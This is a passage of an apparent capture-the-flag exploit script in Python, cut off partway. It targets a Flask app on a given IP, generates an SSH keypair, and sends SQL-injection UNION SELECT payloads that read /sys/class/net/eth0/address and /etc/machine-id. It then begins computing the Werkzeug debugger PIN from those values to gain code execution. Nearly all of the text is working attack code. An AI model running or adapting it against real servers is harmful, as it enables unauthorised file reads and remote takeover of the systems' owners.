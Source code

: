 ```python3
import hashlib
from itertools import chain
import requests
from bs4 import BeautifulSoup
import sys, os
from Crypto.PublicKey import RSA
import urllib.parse


if len(sys.argv) <= 1:
    print(f'USAGE: python3 {sys.argv[0]} <IP>')
    exit(1)

ip = str(sys.argv[1])

def create_SSH_keypair():
        key = RSA.generate(2048, os.urandom)
        private_key = key.exportKey('PEM')
        pub_key = key.publickey().exportKey('OpenSSH')

        with open('sshkey', 'wb') as fp:
                fp.write(private_key)

        with open('sshkey.pub', 'wb') as fp:
                fp.write(pub_key)

        os.chmod('sshkey', 0o600)
        return pub_key.decode()
print('[+] creating SSH keypair')
public_key = create_SSH_keypair()

probably_public_bits = [
        'mcskidy',# username
        'flask.app',# modname
        'Flask',# getattr(app, '__name__', getattr(app.__class__, '__name__'))
        '/home/mcskidy/.local/lib/python3.8/site-packages/flask/app.py' # getattr(mod, '__file__', None),
]

mac_url = f'http://{ip}:8000/download?id=\'+UNION+SELECT+\'file:///sys/class/net/eth0/address\'+AS+output_text%3b--+-'
machine_url = f'http://{ip}:8000/download?id=\'+UNION+SELECT+\'file:///etc/machine-id\'+AS+output_text%3b--+-'
print('[+] trying to get public and private bits')
try:
        r = requests.get(mac_url)
        mac_address = str(r.text.strip())
        getnode = int(mac_address.strip().replace(':', ''), base=16)
        m = requests.get(machine_url)
except:
        print('[-] try again!')

private_bits = [
        str(getnode),# str(uuid.getnode()),  /sys/class/net/eth0/address
        str(m.text.strip())# get_machine_id(), /etc/machine-id, /proc/sys/kernel/random/boot_id, or /proc/self/cgroup
]

h = hashlib.sha1() #test with md5 and sha1
for bit in chain(probably_public_bits, private_bits):
        if not bit:
                continue
        if isinstance(bit, str):
```